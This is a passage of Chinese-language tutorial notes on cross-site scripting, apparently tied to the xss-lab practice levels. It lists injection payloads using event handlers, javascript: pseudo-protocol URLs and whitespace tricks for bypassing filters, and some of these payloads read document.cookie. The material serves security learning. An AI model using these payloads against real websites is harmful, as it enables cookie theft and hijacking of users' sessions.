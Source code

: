 **eg**:xss-lab第七关：

```
" oonnclick="alert(123)
```

#### 4.2 js事件处理程序

很多 HTML 节点都可以绑定事件处理程序，比如前面提到的<img>标签，指定一个错误或不存在的 src 属性，载入图像失败时就会触发 onerror 事件:

```
<img src="0" onerror="alert(document.cookie);">
```

类似的事件还有非常多，如 onload、onmouseover、onfocus 等，以下是一些例子

```
<object onerror=alert(document.domain)>
<input onfocus=alert (document.domain)>
<video src=0 onerror=alert(document.domain)>
<svg onload=alert(document.domain)>
```

构造不同的 HTML 标签并尝试使用不同的事件处理程序，可以绕过一些过滤不严格的安全防御机制

**eg**:xss-lab 第三关 

```
' onfocus='alert(123)'
```

#### 4.3 javascript 伪协议

浏览器可以接受内联的 JavaScript 代码作为 URL，所以**在需要指定 URL 的标签属性中，可以尝试构造一个 JavaScript 伪协议的 URL 来执行 JavaScript 代码**，比如下面的标签 (不同的览器存在差异，以下攻击代码不一定适用于所有浏览器):

```
<a href=javascript:alert(1)>Click Me</a>
<iframe src=javascript:alert(2)></iframe>
<form action=javascript:alert(3)>
<object data=javascript:alert(4)>
<button formaction=javascript;alert(5)>Click Me</button>
```

一些安全功能会过滤掉 JavaScript伪协议，不过可以尝试在关键词中插入空白字符绕过检测

```
<a href=“java&#13script&#9:alert(docement.cookie)”>click me</a>
```

**eg**:xss-lab 第五关:

```
'"><a href='javascript:alert(123);'>点击我</a>
```

#### 4.4 编码绕过

##### 4.4.1 html编码概述
